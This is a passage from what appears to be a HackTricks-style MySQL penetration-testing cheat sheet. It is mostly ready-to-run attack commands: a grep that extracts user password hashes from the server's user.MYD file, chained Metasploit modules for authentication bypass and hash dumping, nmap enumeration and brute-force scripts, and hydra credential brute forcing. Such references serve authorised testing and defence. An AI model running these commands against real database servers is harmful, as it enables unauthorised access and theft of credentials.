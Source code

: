 You can **use these credentials to login in the mysql database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
## HackTricks Automatic Commands

```
Protocol_Name: MySql    #Protocol Abbreviation if there is one.
Port_Number:  3306     #Comma separated if there is more than one.
Protocol_Description: MySql     #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for MySql
  Note: |
    MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

    https://book.hacktricks.xyz/pentesting/pentesting-mysql

Entry_2:
  Name: Nmap
  Description: Nmap with MySql Scripts
  Command: nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse {IP} -p 3306

Entry_3:
  Name: MySql
  Description: Attempt to connect to mysql server
  Command: mysql -h {IP} -u {Username}@localhost
  
Entry_4:
  Name: MySql consolesless mfs enumeration
  Description: MySql enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS {IP}; set RPORT 3306; run; exit' 
```

It is a relational database management system. A default port is 3306.

# Enumeration
nmap --script mysql-info -p 3306 <target-ip>
nmap --script mysql-enum -p 3306 <target-ip>
nmap --script mysql-brute -p 3306 <target-ip>
nmap --script mysql-databases -p 3306 <target-ip>
nmap --script mysql-users -p 3306 <target-ip>
nmap --script mysql-* -p 3306 <target-ip>
Copied!
# Brute Force Credentials
hydra -l username -P passwords.txt <target-ip> mysql
hydra -L usernames.txt -p password <target-ip> mysql
Copied!
